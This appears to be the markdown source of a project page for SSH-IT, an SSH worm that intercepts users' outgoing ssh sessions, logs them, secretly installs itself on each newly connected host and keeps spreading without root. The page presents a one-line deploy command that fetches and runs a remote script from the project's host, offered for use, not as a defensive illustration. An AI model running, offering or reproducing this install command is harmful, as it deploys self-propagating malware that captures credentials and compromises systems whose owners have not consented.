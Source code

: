 ```yaml
---
layout: default
title: SSH-IT
description: An autonomous SSH worm that intercepts outgoing SSH connections every time a user uses ssh.
---
```


<!-- <div style="text-align:center"><h1>{{ page.title }}</h1></div> -->

<div style="width:80%; margin:auto">
    <script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

### Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

[Read more](deploy) and learn some [tricks](deploy).

### What it does

SSH-IT intercepts outgoing SSH connections every time a user uses `ssh`. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

### How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need `ptrace()`. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

### Contact

{% include contact-details.md %}
